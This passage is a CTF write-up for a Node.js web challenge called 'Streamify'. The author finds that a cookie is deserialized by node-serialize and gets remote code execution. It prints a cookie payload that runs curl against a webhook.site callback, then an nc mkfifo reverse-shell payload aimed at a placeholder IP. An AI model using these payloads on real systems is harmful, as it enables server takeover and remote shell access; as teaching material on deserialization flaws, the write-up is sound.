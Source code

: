 !["streamer cookie"](27.png "streamer cookie")

The cookie's values are being printed out in the response of the page. 

I tried injecting XSS and SSTI but no luck, it was HTML encoding my XSS so this didn't work and SSTI didn't show anything either.

I looked at the website's backend which was `Node JS` (We get to know this from the `X-Powered-By: Express` response header.)

Since it was node and cookie seemed something like serialized. I remembered a vulnerability in `node-serialize` which is vulnerable to RCE.

I tried a PoC payload and it worked!

This was also blind so I first tried to get a callback with curl using following cookie.

`{"streamername":"_$$ND_FUNC$$_function (){require('child_process').exec('curl https://webhook.site/c552bd8f-2b00-4e2b-a245-6b0571fd5f8b', function(error, stdout, stderr) { console.log(stdout) });}()","status":"test","age":"2`

And this worked perfectly!

Next I used simple nc mkfifo rev shell from https://revshells.com and got shell access to read the flag.

Reverse Shell Payload: `{"streamername":"_$$ND_FUNC$$_function (){require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <your-ip> 11919 >/tmp/f', function(error, stdout, stderr) { console.log(stdout) });}()","statu`

!["Flag for Streamify"](28.png "Flag for Streamify")

That is all for now. Kudos to the AirOverflow team for organizing such an amazing CTF event and @rootxran for all the amazing web challenges.

**Thanks for reading!**
